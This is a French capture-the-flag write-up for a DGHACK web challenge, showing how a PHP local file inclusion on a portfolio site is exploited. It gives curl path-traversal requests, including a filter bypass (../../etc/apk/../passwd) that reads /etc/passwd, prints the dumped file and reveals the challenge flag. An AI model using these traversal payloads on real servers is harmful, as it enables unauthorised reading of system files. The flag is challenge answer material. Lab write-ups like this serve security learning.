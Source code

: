 
# Pretty Vulnerability

https://www.dghack.fr/challenges/dghack/prettyvulnerability/

> Un de mes amis a décidé de créer un portfolio en ligne afin d'appuyer sa candidature à la DGA. Je lui ai dit qu'une vulnérabilité est présente mais je ne suis pas allé plus loin sans son autorisation. Il ne me croit pas et me met au défi de trouver le champ GECOS de l'utilisateur flag. Apparemment il a également prévenu son hébergeur qui a pris des mesures pour empêcher l'exploitation de la vulnérabilité.

L'[url associée](http://web-yvqppk.inst.malicecyber.com/) présente un site perso aux couleurs chatoyantes.  

On ouvre la console du navigateur pour y trouver une potentielle faille include PHP typique: 

![](capture_console.png)

Quelques essais: 

```
# Le CSS apparait au milieu du HTML. Nous sommes sur la bonne voie:
curl -sv "http://web-yvqppk.inst.malicecyber.com/index.php?page=../style.css" 

# ok
curl -sv "http://web-yvqppk.inst.malicecyber.com/index.php?page=../../etc/hosts"

# ko !? Il doit y avoir une protection sur le chemin.
curl -sv "http://web-yvqppk.inst.malicecyber.com/index.php?page=../../etc/passwd"

# Essayons de contourner le problème:  BINGO, nous avons le passwd dans le résultat. 
curl -sv "http://web-yvqppk.inst.malicecyber.com/index.php?page=../../etc/apk/../passwd"
<!DOCTYPE html>
<html lang="en" dir="ltr">
// ...
    <div class="content-header flex" id="content-body">
      root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
// ...
nobody:x:65534:65534:nobody:/:/sbin/nologin
flag:x:1000:1000:DGHACK{F1sHc4n'tClImB4Tr33}:/home/flag:/bin/ash
    </div>
// ...
</html>
```

Et notre flag est donc : `DGHACK{F1sHc4n'tClImB4Tr33}`
